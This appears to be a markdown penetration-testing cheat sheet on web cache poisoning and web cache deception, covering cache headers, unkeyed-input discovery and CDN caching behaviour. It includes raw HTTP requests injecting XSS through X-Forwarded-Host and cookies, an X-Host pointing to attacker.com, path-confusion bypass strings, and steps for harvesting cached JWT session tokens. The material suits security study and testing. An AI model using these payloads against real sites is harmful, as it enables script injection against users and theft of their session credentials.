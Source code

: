# Cache Poisoning and Cache Deception
* In **`web cache poisoning`**, the attacker causes the application to store some `malicious content` in the cache, and this content is served from the cache to other application users.

* In **`web cache deception`**, the attacker causes the application to store some `sensitive content` belonging to another user in the cache, and the attacker then retrieves this content from the cache.

# Cache Poisoning
You need first to identify unkeyed inputs (parameters not needed to appear on the cached request but that change the returned page), see how to abuse this parameter and get the response cached.

## Discovery: Check HTTP headers
### Server Cache Headers:
* **`X-Cache`**: in the response may have the value miss when the request wasn't cached and the value hit when it is cached
* **`Cache-Control`**: indicates if a resource is being cached and when will be the next time the resource will be cached again: Cache-Control: public, max-age=1800
* **`Vary`**: is often used in the response to indicate additional headers that are treated as part of the cache key even if they are normally unkeyed
* **`Age`**: defines the times in seconds the object has been in the proxy cache
* **`Server-Timing: cdn-cache; desc=HIT`**: also indicates that a resource was cached

### Local Cache headers:
* **`Clear-Site-Data`**: Header to indicate the cache that should be removed: Clear-Site-Data: "cache", "cookies"
* **`Expires`**: Contains date/time when the response should expire: Expires: Wed, 21 Oct 2015 07:28:00 GMT
* **`Pragma: no-cache`** same as **`Cache-Control: no-cache`**
* **`Warning`**: The **Warning** general HTTP header contains information about possible problems with the status of the message. More than one Warning header may appear in a response. **`Warning: 110 anderson/1.3.37 "Response is stale"`**

## Discovery: Caching 400 code
If you are thinking that the response is being stored in a cache, you could try to send requests with a bad header, which should be responded to with a status code 400. Then try to access the request normally and if the response is a 400 status code, you know it's vulnerable (and you could even perform a DoS).


## Discovery: Identify and evaluate unkeyed inputs
You could use [**Param Miner**](https://portswigger.net/bappstore/17d2949a985c4b7ca092728dba871943) to brute-force parameters and headers that may be changing the response of the page. For example, a page may be using the header `X-Forwarded-For` to indicate the client to load the script from there:
```javascript
<script type="text/javascript" src="//<X-Forwarded-For_value>/resources/js/tracking.js"></script>
```

## Exploiting
* A header like **`X-Forwarded-For`** is being reflected in the response unsanitized.
> You can send a basic XSS payload and poison the cache so everybody that accesses the page will be XSSed.
> Note that this will poison a request to `/en?region=uk` not to `/en`
```javascript
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"
```
* Using web cache poisoning to exploit **`cookie-handling`** vulnerabilities
```javascript
GET / HTTP/1.1
Host: vulnerable.com
Cookie: session=VftzO7ZtiBj5zNLRAuFpXpSQLjS4lBmU; fehost=asd"%2balert(1)%2b"
```
* Using multiple headers to exploit web cache poisoning vulnerabilities
  * you may find an Open redirect if you set `X-Forwarded-Host` to a **domain controlled by you**
  * `X-Forwarded-Scheme` to http
```javascript
GET /resources/js/tracking.js HTTP/1.1
Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
X-Forwarded-Host: ac8e1f8f1fb1f8cb80586c1d01d500d3.web-security-academy.net/
X-Forwarded-Scheme: http
```
* limited Vary header
If you found that the X-Host header is being used as domain name to load a JS resource but the Vary header in the response is indicating User-Agent. Then, you need to find a way to exfiltrate the User-Agent of the victim and poison the cache using that user agent:
```javascript
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: THE SPECIAL USER-AGENT OF THE VICTIM
X-Host: attacker.com
```

# Cache Deception
### Caching Sensitive Data
Web Cache Deception on PayPal Home Page
1. Normal browsing, visit home : `https://www.example.com/myaccount/home/`
2. Open the malicious link : `https://www.example.com/myaccount/home/malicious.css`
3. The page is displayed as `/home` and the cache is saving the page
4. Open a private tab with the previous URL : `https://www.example.com/myaccount/home/malicous.css`
5. The content of the cache is displayed

## Detection Bypass Techinques (Cache Deception)
* `/profile%2ecss`
* `/profile/;test.css`
* `/profile/!test.css`
* `/profile/.css`
* `/api/messages%0A%0D-test.css`
* `/api/aut/%0A%0D%09session.css`

## CloudFlare Caching
CloudFlare caches the resource when the `Cache-Control` header is set to `public` and `max-age` is greater than `0`.

* The Cloudflare CDN does not cache HTML by default
* Cloudflare only caches based on file extension and not by MIME type: [cloudflare/default-cache-behavior](https://developers.cloudflare.com/cache/about/default-cache-behavior/)

## Web Cache Deception on OpenAI
1. Attacker crafts a dedicated **.css** path of the **`/api/auth/session`** endpoint
2. Attacker distributes the link
3. Victims visit the legitimate link
4. Response is cached
5. Attacker harvests **JWT Credentials**

## Tools
* [PortSwigger/param-miner](https://github.com/PortSwigger/param-miner)
* [Web Cache Vulnerability Scanner](https://github.com/Hackmanit/Web-Cache-Vulnerability-Scanner)

